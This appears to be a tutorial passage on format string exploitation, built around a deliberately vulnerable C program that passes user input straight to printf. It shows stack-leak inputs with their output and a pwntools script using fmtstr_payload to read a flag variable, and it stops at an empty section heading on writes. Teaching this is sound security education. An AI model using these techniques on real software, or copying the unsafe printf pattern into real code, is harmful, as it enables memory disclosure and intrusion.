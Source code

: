 # Format string exploits

Consider the code below:

```c
#include <stdio.h>
char flag[6] = "FLAG1\0";
char cmd[8] = "/bin/ls\0";
int list_files(){
    system(cmd);
}
int main(){
    char name[64];
    fputs("Enter name: ", stdout);
    fgets(name, 63, stdin);
    fputs("Hello: ", stdout);
    printf(name);
    list_files();
    return 0;
}
```

Compile: `gcc chal.c -o chal -no-pie -fstack-protector`

[fgets()](https://www.tutorialspoint.com/c_standard_library/c_function_fgets.htm) only reads a specified number of characters, so buffer overflow is not applicable here. We can instead use a format string vulnerability.

## Printf format specifiers

[ref](https://www.cplusplus.com/reference/cstdio/printf/)

For our purposes, only `%p, %s, %n` will be useful.

| Specifier | Function                                                     | Example                                              | Explanation                                 |
| --------- | ------------------------------------------------------------ | ---------------------------------------------------- | ------------------------------------------- |
| `%p`      | Prints input as a pointer address                            | `printf("%016p", &flag)` <br>=> `0x0000000000404050` | Padded to 16 hex char (8 bytes) because x64 |
| `%s`      | Prints the data at the pointer it is passed as a string      | `printf("%s", &flag)`  <br> => FLAG1                 |                                             |
| `%n`      | Writes the number of characters printed to the pointer it is passed | `printf("12345%n", &flag)`<br>=> < no output >       | Writes 5 to the memory address of flag      |

## Exploiting printf

All format specifiers require some kind of input, passed as arguments. The first 5 arguments (for x64) are stored in the `rsi`, `rdx`, `rcx`, `r8d`, `r9d` registers (`rdi` is used for the format string). The 6th and onward arguments are stored in the stack. Thus, if no arguments are passed to `printf` but a format specifier is present, the values of `rdi` etc are used, followed by stack values. This allows us to manipulate the arguments `printf` are passed as we control some parts of the stack (the `name` buffer). Let's test it out:

```shell
➜ ./chal 
Enter name: AAAAAAAA %016p %016p %016p %016p %016p %016p %016p %016p %016p %016p 
chal  chal.c  core  script2.py  script.py
Hello: AAAAAAAA 0x0000006c6c6548 0x00000000000007 0x000000203a6f6c 0x00000000000007 0x007ffff7faeb00 0x4141414141414141 0x2520703631302520 0x3130252070363130 0x7036313025207036
```

As expected, the 6th `%p`prints `0x4141414141414141`, which is the ASCII value of `AAAAAAAA` in hex. 

We can use this to our benefit by replacing `AAAAAAAA` with the memory address of `flag` and replacing the last `%p`with `%s`.

```python
p.sendline(p64(e.symbols["flag"]) + b"%p " * 5 + b"%s")
```

However, this payload does not work. Why? 

Our payload looks something like this:

```python
b'P@@\x00\x00\x00\x00\x00%p %p %p %p %p %s'
```

There are a bunch of null bytes in the address that cause `fgets` to stop reading, thus our payload is never actually executed.

To overcome this problem, we can put the address at the back of the payload instead. However, we now need to account for the number of characters are we are using in the payload because the address is no longer at the top of the stack.

Fortunately, pwntools is able to calculate a correct payload fairly easily by using the [`fmtstr_payload`](https://docs.pwntools.com/en/stable/fmtstr.html#pwnlib.fmtstr.fmtstr_payload) function. 

```python
from pwn import *

p = process("./chal")
e = ELF("./chal")
addr = e.symbols["flag"]
context.bits = 64
payload = fmtstr_payload(6,{addr:b"A"}).replace(b"n",b"s")
p.sendline(payload)
p.interactive()
```

By default, `fmtstr_payload` tries to write to the specified address, but we only need to read it, so we replace `n` with `s`. `contex.bits` is also very important because this impacts the size of the memory address.

```
[*] Process './chal' stopped with exit code 0 (pid 14618)
Enter name: Hello:                                                                 HFLAG1aaaabaP@@
```

## Writing with format string bugs

